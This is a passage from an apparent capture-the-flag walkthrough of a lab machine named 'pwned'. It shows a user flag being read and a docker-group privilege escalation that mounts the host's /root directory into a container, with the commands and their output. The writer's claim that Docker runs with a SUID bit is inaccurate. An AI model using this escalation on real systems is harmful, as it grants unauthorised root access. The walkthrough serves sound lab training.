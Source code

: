 ```sh
elena@pwned:~$ ls
selena-personal.diary  user2.txt
selena@pwned:~$ cat user2.txt 
711fdfc6caad532815a440f7f295c176

You are near to me. you found selena too.

Try harder to catch me
```

Below is Flag 2.

- Flag 2: 711fdfc6caad532815a440f7f295c176

Looks like we know who exposed Ariana’s private ssh key on the FTP server.

```sh
selena@pwned:~$ cat selena-personal.diary 
Its Selena personal Diary :::

Today Ariana fight with me for Ajay. so i left her ssh key on FTP. now she resposible for the leak.
```

## Flag 3
---

While obtaining Flag 2, I could see that Selena was part of the docker group. So, I decided to focus on this specifically. Checked to see which container images are available on the VM. Looks like there is an image named privsec which I found interesting.

Based on my understanding. Docker runs with a SUID bit that gives the user running the docker command as root.

```sh
selena@pwned:~$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        2 months ago        88.3MB
<none>              <none>              e13ad046d435        2 months ago        88.3MB
alpine              latest              a24bb4013296        3 months ago        5.57MB
debian              wheezy              10fcec6d95c4        18 months ago       88.3MB
```

To test this, I decided to run the docker command with the -v flag that will mount the /mnt directory on the /root directory of the host and ran the container image. This allowed me to list the contents of the /mnt directory. Which is actually running the user as root.

Looks like there is a file named root.txt. Decided to open the file. Looks like the next flag is available and we are able to run commands as root.

```sh
selena@pwned:~$ docker run -v /root:/mnt -it 09ae39f0f8fc ls -la /mnt
```

Below is the output for the command above.

```sh
total 28
drwx------ 3 root root 4096 Jul 10 07:32 .
drwxr-xr-x 1 root root 4096 Sep  5 05:44 ..
-rw------- 1 root root  292 Jul 10 07:36 .bash_history
-rw-r--r-- 1 root root  601 Jul  6 12:40 .bashrc
drwxr-xr-x 3 root root 4096 Jul  4 14:02 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root  429 Jul 10 06:41 root.txt
```
